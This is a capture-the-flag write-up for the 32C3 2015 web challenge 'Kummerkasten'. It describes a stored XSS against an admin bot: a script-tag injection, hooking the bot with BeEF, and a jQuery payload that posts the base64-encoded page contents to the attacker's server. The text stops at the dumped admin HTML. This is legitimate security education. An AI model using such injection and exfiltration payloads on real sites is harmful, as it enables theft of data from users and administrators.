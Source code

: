 # 32C3 CTF 2015 : Kummerkasten

**Category:** Web
**Points:** 300
**Solves:** 61
**Description:**

> Our Admin is a little sad this time of the year. Maybe you can cheer him up at this site <http://136.243.194.46/>
>
>
> Please note: This challenge does not follow the flag format.
>
>
> Hints:
>
> To build the flag, concatenate both parts and omit '32C3_'


## Write-up

Strangely, this 32c3 CTF task weighted 300 points (while *ITD* was "only" 150) however it was a ~~simple~~ straightforward XSS. You're given a page like this: ![](http://i.imgur.com/7vUobWP.png)

*Your team* is nearly arbitrary (just a basic filter) and the injectable field is the message itself. It is possible to inject `<script src="yourstuff.js"></script>` right away. Clearly, there's a bot reading all the messages so the first thing right off the bat I did was to hook in [BeEF](http://beefproject.com/). The bot appeared in the logs shortly and then disconnected. I wasn't really disappointed as the original page already contained jQuery code so coding payloads would be a cakewalk.

First I dumped the current page the bot was seeing:

```javascript
$.post('http://myserver', {'a': btoa($('body')[0].innerHTML)})
```

The bot returned this:

```html
<script src="js/jquery-2.1.4.min.js"></script>
<script src="js/bootstrap.min.js"></script>
<script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" class="collapse navbar-collapse">
          <ul class="nav navbar-nav">
            <li class="active comments comment"><a href="/admin/comments">Comments</a></li>
            <li class="bugs"><a href="/admin/bugs">Bugs</a></li>
          </ul>
          <img src="img/spinner.svg" class="spinner pull-right" style="height: 50px; display: none;">
	<ul class="nav navbar-nav navbar-right">
	  <li class="token"><a href="/admin/token">HACK - Token</a></li>
	</ul>
        </div>
```
